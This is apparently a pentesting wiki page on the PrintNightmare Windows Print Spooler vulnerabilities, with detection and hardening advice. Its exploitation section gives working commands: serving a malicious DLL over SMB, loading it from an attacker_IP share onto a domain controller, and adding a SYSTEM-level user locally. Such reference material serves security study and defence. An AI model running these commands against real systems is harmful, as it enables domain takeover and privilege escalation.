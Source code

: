 # PrintNightmare (Windows Print Spooler RCE/LPE)

{{#include ../../banners/hacktricks-training.md}}

> PrintNightmare is the collective name given to a family of vulnerabilities in the Windows **Print Spooler** service that allow **arbitrary code execution as SYSTEM** and, when the spooler is reachable over RPC, **remote code execution (RCE) on domain controllers and file servers**. The most-widely exploited CVEs are **CVE-2021-1675** (initially classed as LPE) and **CVE-2021-34527** (full RCE). Subsequent issues such as **CVE-2021-34481 (“Point & Print”)** and **CVE-2022-21999 (“SpoolFool”)** prove that the attack surface is still far from closed.

---

## 1. Vulnerable components & CVEs

| Year | CVE | Short name | Primitive | Notes |
|------|-----|------------|-----------|-------|
|2021|CVE-2021-1675|“PrintNightmare #1”|LPE|Patched in June 2021 CU but bypassed by CVE-2021-34527|
|2021|CVE-2021-34527|“PrintNightmare”|RCE/LPE|AddPrinterDriverEx allows authenticated users to load a driver DLL from a remote share|
|2021|CVE-2021-34481|“Point & Print”|LPE|Unsigned driver installation by non-admin users|
|2022|CVE-2022-21999|“SpoolFool”|LPE|Arbitrary directory creation → DLL planting – works after 2021 patches|

All of them abuse one of the **MS-RPRN / MS-PAR RPC methods** (`RpcAddPrinterDriver`, `RpcAddPrinterDriverEx`, `RpcAsyncAddPrinterDriver`) or trust relationships inside **Point & Print**.

## 2. Exploitation techniques

### 2.1 Remote Domain Controller compromise (CVE-2021-34527)

An authenticated but **non-privileged** domain user can run arbitrary DLLs as **NT AUTHORITY\SYSTEM** on a remote spooler (often the DC) by:

```powershell
# 1. Host malicious driver DLL on a share the victim can reach
impacket-smbserver share ./evil_driver/ -smb2support

# 2. Use a PoC to call RpcAddPrinterDriverEx
python3 CVE-2021-1675.py victim_DC.domain.local  'DOMAIN/user:Password!' \
       -f \
       '\\attacker_IP\share\evil.dll'
```

Popular PoCs include **CVE-2021-1675.py** (Python/Impacket), **SharpPrintNightmare.exe** (C#) and Benjamin Delpy’s `misc::printnightmare / lsa::addsid` modules in **mimikatz**.

### 2.2 Local privilege escalation (any supported Windows, 2021-2024)

The same API can be called **locally** to load a driver from `C:\Windows\System32\spool\drivers\x64\3\` and achieve SYSTEM privileges:

```powershell
Import-Module .\Invoke-Nightmare.ps1
Invoke-Nightmare -NewUser hacker -NewPassword P@ssw0rd!
```

### 2.3 SpoolFool (CVE-2022-21999) – bypassing 2021 fixes

Microsoft’s 2021 patches blocked remote driver loading but **did not harden directory permissions**. SpoolFool abuses the `SpoolDirectory` parameter to create an arbitrary directory under `C:\Windows\System32\spool\drivers\`, drops a payload DLL, and forces the spooler to load it:

```powershell
# Binary version (local exploit)
SpoolFool.exe -dll add_user.dll

# PowerShell wrapper
Import-Module .\SpoolFool.ps1 ; Invoke-SpoolFool -dll add_user.dll
```

> The exploit works on fully-patched Windows 7 → Windows 11 and Server 2012R2 → 2022 before February 2022 updates 

---

## 3. Detection & hunting

* **Event Logs** – enable the *Microsoft-Windows-PrintService/Operational* and *Admin* channels and watch for **Event ID 808** “The print spooler failed to load a plug-in module” or for **RpcAddPrinterDriverEx** messages.
* **Sysmon** – `Event ID 7` (Image loaded) or `11/23` (File write/delete) inside `C:\Windows\System32\spool\drivers\*` when the parent process is **spoolsv.exe**.
* **Process lineage** – alerts whenever **spoolsv.exe** spawns `cmd.exe`, `rundll32.exe`, PowerShell or any unsigned binary .

## 4. Mitigation & hardening

1. **Patch!** – Apply the latest cumulative update on every Windows host that has the Print Spooler service installed.
2. **Disable the spooler where it is not required**, especially on Domain Controllers:
   ```powershell
   Stop-Service Spooler -Force
   Set-Service Spooler -StartupType Disabled
   ```
3. **Block remote connections** while still allowing local printing – Group Policy: `Computer Configuration → Administrative Templates → Printers → Allow Print Spooler to accept client connections = Disabled`.
4. **Restrict Point & Print** so only administrators can add drivers by setting the registry value:
   ```cmd
   reg add "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint" \
           /v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 1 /f
   ```
   Detailed guidance in Microsoft KB5005652 

---

## 5. Related research / tools

* [mimikatz `printnightmare`](https://github.com/gentilkiwi/mimikatz/tree/master/modules) modules  
* SharpPrintNightmare (C#) / Invoke-Nightmare (PowerShell)  
* SpoolFool exploit & write-up  
* 0patch micropatches for SpoolFool and other spooler bugs  

---

**More reading (external):** Check the 2024 walk-through blog post – [Understanding PrintNightmare Vulnerability](https://www.hackingarticles.in/understanding-printnightmare-vulnerability/)

{{#include ../../banners/hacktricks-training.md}}

## References

* Microsoft – *KB5005652: Manage new Point & Print default driver installation behavior*  
  <https://support.microsoft.com/en-us/topic/kb5005652-manage-new-point-and-print-default-driver-installation-behavior-cve-2021-34481-873642bf-2634-49c5-a23b-6d8e9a302872>
* Oliver Lyak – *SpoolFool: CVE-2022-21999*  
  <https://github.com/ly4k/SpoolFool>
{{#include /banners/hacktricks-training.md}}
